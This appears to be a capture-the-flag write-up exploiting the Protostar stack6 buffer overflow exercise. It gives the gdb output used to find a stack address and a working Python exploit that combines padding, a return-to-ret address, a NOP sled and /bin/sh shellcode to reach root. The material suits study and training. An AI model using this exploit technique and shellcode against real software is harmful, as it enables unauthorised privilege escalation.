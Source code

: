 
Remember a ret instruction is simply a pop eip , we are just taking the element on the top of the stack and putting it in eip.

Like we want to execute our shellcode we need to jump on the nop sled: 

-> i create a fake payload to find where to jump 'A'*80 + 'B'*40 ('A' for padding + 'B'*40 we are overwriting eip with 'BBBB' so 36 bytes over eip)

With gdb let's find an address which is in the middle of 'B's.
```
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack6 
input path please: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Breakpoint 1, 0x080484f9 in getpath () at stack6/stack6.c:23
23	in stack6/stack6.c
(gdb) x/x $esp
0xbffff7bc:	0x42424242
(gdb) x/10x $esp
0xbffff7bc:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff7cc:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff7dc:	0x42424242	0x42424242

```
Ok let's jump at 0xbffff7cc. 


payload  = padding + overwrite sEip with the address of ret instruction  +  new return address  +  nop sled + shellcode




## exploit : 


```python
import struct 
shellcode=b'\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80'


padding=b'A'*80

ret_address = struct.pack('<I',0x080484f9) 

next_ret = struct.pack('<I',0xbffff7cc)

payload = padding + ret_address + next_ret + b'\x90'*40 + shellcode

```


We are root: 

![](win_root2.png)